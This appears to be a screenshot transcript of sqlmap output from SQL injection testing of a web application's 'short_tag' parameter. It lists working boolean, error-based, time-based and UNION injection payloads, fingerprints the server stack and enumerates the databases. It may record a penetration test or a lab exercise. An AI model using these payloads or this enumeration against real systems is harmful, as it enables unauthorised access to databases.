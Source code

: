 [18:50:03] [INFO] testing 'MySQL >= 5.0.12 OR time-based blind (SLEEP)'
[18:50:13] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (SLEEP - comment)'
[18:50:19] [INFO] testing 'MySQL >= 5.0.12 OR time-based blind (SLEEP - comment)'
[18:50:30] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP - comment)'
[18:50:36] [INFO] testing 'MySQL >= 5.0.12 OR time-based blind (query SLEEP - comment)'
[18:50:41] [INFO] testing 'MySQL < 5.0.12 AND time-based blind (BENCHMARK)'
[18:51:29] [INFO] GET parameter 'short_tag' appears to be 'MySQL < 5.0.12 AND time-based blind (BENCHMARK)' injectable 
[18:51:29] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[18:51:29] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[18:51:30] [INFO] 'ORDER BY' technique appears to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNION query injection technique test
[18:51:36] [INFO] target URL appears to have 1 column in query
[18:51:47] [INFO] GET parameter 'short_tag' is 'Generic UNION query (NULL) - 1 to 20 columns' injectable
GET parameter 'short_tag' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 56 HTTP(s) requests:
---
Parameter: short_tag (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: short_tag=smart' AND 7563=7563-- IGsL

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: short_tag=smart' AND (SELECT 3761 FROM(SELECT COUNT(*),CONCAT(0x71626b6271,(SELECT (ELT(3761=3761,1))),0x717a767871,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- vzPc

    Type: time-based blind
    Title: MySQL < 5.0.12 AND time-based blind (BENCHMARK)
    Payload: short_tag=smart' AND 5750=BENCHMARK(5000000,MD5(0x50755a70))-- JJUJ

    Type: UNION query
    Title: Generic UNION query (NULL) - 1 column
    Payload: short_tag=-2214' UNION ALL SELECT CONCAT(0x71626b6271,0x756e71587362614b515a505a6565476471464b4a7268417549625548576e52634453717a54624a6c,0x717a767871)-- -
---
[18:51:47] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian
web application technology: PHP 8.4.4, Apache 2.4.62
back-end DBMS: MySQL >= 5.0 (MariaDB fork)
[18:51:51] [INFO] fetching database names
[18:51:52] [INFO] starting 2 threads
[18:51:53] [ERROR] thread 0: 'AttributeError: AttributeError: module 'logging' has no attribute '_acquireLock''
[18:51:53] [ERROR] thread 1: 'AttributeError: AttributeError: module 'logging' has no attribute '_acquireLock''
available databases [2]:                                                                                           
[*] information_schema
[*] web
